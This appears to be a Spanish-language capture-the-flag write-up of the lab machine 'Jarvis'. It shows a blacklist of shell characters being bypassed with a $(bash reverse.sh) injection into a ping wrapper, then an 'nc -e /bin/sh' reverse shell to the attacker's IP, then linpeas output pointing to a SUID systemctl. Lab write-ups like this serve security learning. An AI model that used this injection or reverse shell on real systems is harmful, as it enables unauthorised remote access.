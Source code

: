 ```bash
❯ cat script.sh
#!/bin/bash
echo "hola soy `whoami`"
                                                                                                                                                                                                                                           
❯ ./script.sh
hola soy root
```

En este caso en especial el creador del script ha sido cuidadoso y ha agregado una blacklist con el cual si en el input del usuario existe ['&', ';', '-', '`', '||', '|'] no va a poder ejecutar el ping, pero hay otras formas de ejecutar comandos en bash como por ej $(comando):

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

La forma de burlar esto seria creandonos un script en bash que contenga una reverse shell:

```bash
❯ cat reverse.sh
#!/bin/bash

nc -e /bin/sh 10.10.16.198 443
```

```bash
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(bash reverse.sh)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54402
whoami
pepper
pepper@jarvis:~$ cat user.txt 
2afa36c4f05b37b34259c---------
```

# **ESCALACION DE PRIVILEGIOS**

Nos pasamos el `linpeas` para enumerar el sistema:

```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 31K Aug 21  2018 /bin/fusermount (Unknown SUID binary)
-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 60K Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 171K Feb 17  2019 /bin/systemctl
```
